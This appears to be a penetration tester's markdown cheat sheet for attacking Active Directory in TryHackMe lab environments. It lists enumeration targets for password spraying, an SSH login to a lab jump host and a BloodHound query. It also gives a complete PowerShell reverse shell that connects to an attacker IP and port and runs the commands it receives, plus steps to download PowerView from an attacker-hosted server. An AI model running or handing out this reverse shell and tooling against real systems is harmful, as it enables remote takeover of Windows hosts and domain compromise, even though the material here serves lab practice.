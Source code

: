 ### Key Data points
|**Data Point**|**Description**|
|---|---|
|`AD Users`|We are trying to enumerate valid user accounts we can target for password spraying.|
|`AD Joined Computers`|Key Computers include Domain Controllers, file servers, SQL servers, web servers, Exchange mail servers, database servers, etc.|
|`Key Services`|Kerberos, NetBIOS, LDAP, DNS|
|`Vulnerable Hosts and Services`|Anything that can be a quick win. ( a.k.a an easy host to exploit and gain a foothold)|

### SSH AD
```
ssh za.tryhackme.com\\<AD Username>@thmjmp1.za.tryhackme.com
```
### Bloodhound Custom Query
``` bash
#Enumerate the Remote Management Users Group (IMPORTANT?)
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```
### Powershell -> Reverse Shell
``` powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.55',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
### PowerView Download and Import Module
``` powershell
#host webserver in kali where powerview.ps1 is /Are/Pentest/powerview
#And download from powershell
Invoke-WebRequest http://<IP>:<PORT>/PowerView.ps1 -OutFile PowerView.ps1
#Import module
. .\PowerView.ps1
```
